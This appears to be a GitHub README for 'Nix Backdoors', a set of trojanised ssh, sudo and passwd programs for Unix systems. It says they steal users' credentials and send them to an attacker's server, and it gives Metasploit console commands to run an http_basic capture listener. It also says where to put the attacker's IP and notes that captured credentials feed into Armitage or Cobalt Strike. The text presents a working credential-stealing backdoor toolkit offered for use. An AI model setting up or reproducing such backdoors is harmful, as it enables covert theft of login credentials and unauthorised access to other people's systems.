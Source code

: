 Nix Backdoors
=============
ssh, sudo, and passwd

Steals creds and sends them to the http_basic server in metasploit:
msf > use auxiliary/server/capture/http_basic
msf auxiliary(http_basic) > set URIPATH /
msf auxiliary(http_basic) > run

Make sure to replace metasploit.http.serv.ip in the code with the ip that the server is running on
Creds will automatically be imported into the cred database of an Armitage or Cobalt Strike server
passwd is by far the most complex and effective
